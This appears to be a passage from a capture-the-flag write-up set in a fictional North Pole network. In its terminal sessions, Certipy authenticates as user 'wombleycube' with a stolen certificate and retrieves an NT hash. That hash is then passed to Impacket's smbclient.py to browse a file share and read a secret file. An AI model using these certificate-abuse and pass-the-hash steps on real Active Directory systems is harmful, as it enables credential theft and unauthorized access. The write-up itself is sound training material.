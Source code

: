 ```
alabaster@ssh-server-vm:~/impacket$ certipy auth -pfx wombleycube_npdc01.pfx -dc-ip 10.0.0.53
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'wombleycube@northpole.local'
    [1] DNS Host Name: 'npdc01.northpole.local'
> 0
[*] Using principal: wombleycube@northpole.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'wombleycube.ccache'
[*] Trying to retrieve NT hash for 'wombleycube'
[*] Got hash for 'wombleycube@northpole.local': aad3b435b51404eeaad3b435b51404ee:5740373231597863662f6d50484d3e23
```
we now have a hash for Wombley Cube. We can use that with [smbclient.py](https://github.com/fortra/impacket/blob/master/examples/smbclient.py) to attempt to connect to a fileserver

```
alabaster@ssh-server-vm:~/impacket$ smbclient.py -hashes aad3b435b51404eeaad3b435b51404ee:5740373231597863662f6d50484d3e23 -dc-ip 10.0.0.53 northpole.local/wombleycube@10.0.0.53
Impacket v0.11.0 - Copyright 2023 Fortra

Type help for list of commands
# shares
ADMIN$
C$
D$
FileShare
IPC$
NETLOGON
SYSVOL
# use FileShare
# ls
drw-rw-rw-          0  Sat Jan  6 01:13:42 2024 .
drw-rw-rw-          0  Sat Jan  6 01:13:38 2024 ..
-rw-rw-rw-     701028  Sat Jan  6 01:13:41 2024 Cookies.pdf
-rw-rw-rw-    1521650  Sat Jan  6 01:13:41 2024 Cookies_Recipe.pdf
-rw-rw-rw-      54096  Sat Jan  6 01:13:41 2024 SignatureCookies.pdf
drw-rw-rw-          0  Sat Jan  6 01:13:42 2024 super_secret_research
-rw-rw-rw-        165  Sat Jan  6 01:13:42 2024 todo.txt
# cd super_secret_research
# ls
drw-rw-rw-          0  Sat Jan  6 01:13:42 2024 .
drw-rw-rw-          0  Sat Jan  6 01:13:42 2024 ..
-rw-rw-rw-        231  Sat Jan  6 01:13:42 2024 InstructionsForEnteringSatelliteGroundStation.txt
# cat InstructionsForEnteringSatelliteGroundStation.txt
Note to self:

To enter the Satellite Ground Station (SGS), say the following into the speaker:

And he whispered, 'Now I shall be out of sight;
So through the valley and over the height.'
And he'll silently take his way.

```
